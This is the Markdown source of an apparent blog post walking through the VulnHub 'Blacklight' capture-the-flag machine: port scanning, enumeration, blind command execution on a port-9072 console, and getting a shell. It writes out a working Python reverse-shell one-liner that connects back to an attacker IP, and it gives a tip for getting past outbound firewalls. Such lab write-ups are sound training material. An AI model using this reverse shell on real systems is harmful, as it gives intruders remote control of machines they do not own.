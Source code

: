 ```yaml
---
layout: post
title:	"Blacklight Writeup"
date:	2018-07-22 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - vulnhub
---
```

<title> Blacklight Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/logo.png)

## i. Port Scan

Full TCP port scan using unicornscan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/port.png)

~~~
$ unicornscan -Iv -r 160 -mT IP:a

-Iv = Immediately display results as they are found (-v = verbose)
-r = rate of packets to send per second
-mT = mode TCP
IP = host's ip
a = all (Scan 65535 ports)
~~~

`Ports 80 and 9072 are open`

## ii. Enumeration

Starting with port 80, we browse to the host.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/http.png)

We got a hint, `The web is the way`.

Running a directory search to see if we can find any hidden files or directories:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/dirsearch.png)

`robots.txt` seems to stand out.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/robots.png)

Inside, we find flag1.txt and what seems to be a dictionary file.

Navigating to flag1.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/flag1.png)

Perfect, flag #1 captured.

The next hint is:
~~~
9072. The secret is at home.
~~~

Could this be referring to port 9072 that we found open in the port scan?

Connecting to port 9072 using netcat:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/console.png)

It seems that we are able to execute a few commands.

Running .readhash:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/hash.png)

Could this hash be related to the wordlist we found earlier?

Attempting to crack the hash using hashcat with the blacklight dictionary:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/cracker.png)

Looks like the hash can't be cracked... let's move on to the next command in the console.

.exec seems like it allows us to execute commands. Let's try a basic command to see if it is executed.

`Note: Once you issue two commands to the server (including .readhash), port 9072 will close and you will have to restart the virtual machine.`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Seems like the command is not executed, (or maybe it is?), but we cannot see the output.

To test our theory for blind command execution, we can host a web server and execute wget in the console to see if any connections are made:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Perfect, it looks like the box is making a connection to our host.

Which means that the box is executing commands, but we don't see the output (therefore it is called blind).

## iii. Low Privilege Shell

Since we know that the box is able to execute commands, let's try a reverse shell.

Python One Liner:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

source: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Make sure to update the command with your IP Address & Listening Port.

Using Port 443 is more reliable, just in case the host has some sort of firewall setup that is blocking outbound connections on unknown ports.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart1.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart2.png)

After executing the command, we got a reverse shell.

We are able to use this python one-liner to spawn a TTY shell.

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/pty.png)

Looks like we are root already!

















~~~ 

Sources/Links:
~~~
[0]: https://tools.kali.org/information-gathering/unicornscan
[1]: https://www.thegeekdiary.com/what-is-suid-sgid-and-sticky-bit/
[2]: https://unix.stackexchange.com/questions/191940/difference-between-owner-root-and-ruid-euid
~~~


